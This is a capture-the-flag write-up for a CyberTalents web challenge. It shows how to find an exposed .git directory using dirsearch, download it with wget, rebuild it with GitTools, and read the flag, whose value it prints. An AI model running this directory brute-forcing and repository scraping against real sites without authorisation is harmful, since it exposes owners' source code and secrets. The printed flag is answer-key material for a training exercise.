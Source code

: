 # CyberTalents
## Web Security

### Challenge Name:
 [*Maximum Courage*](https://cybertalents.com/challenges/web/maximum-courage)
 
### Challenge Description
Max prefers to learn by practicing and not just reading all day, so he set up a webserver and hopes it stays secret, can you prove it has a weakness?

Link: [http://3.126.138.80/maximum/](http://3.126.138.80/maximum/)

### Solution
* Use Dirsearch tool to bruteforce directory of 'http://3.126.138.80/maximum/' 
```bash
python3 dirsearch.py -u http://3.126.138.80/maximum/
```
* We found an .git folder lets download it using wget
```bash
wget -r http://3.126.138.80/maximum/.git
```
* Use [GitTools](https://github.com/internetwache/GitTools) to extract commits and their content from this broken repository.
```bash
./extractor.sh ~/Desktop/maximum/ ~/Desktop/repo
```
* See flag.php file content
```bash
cat /home/darkknight/Desktop/repo/0-190de370286e98dda6813ac9c05f679ad60d9f9c/flag.php
```
* You got the Flag!!


### The Flag
 > be607453caada6a05d00c0ea0057f733
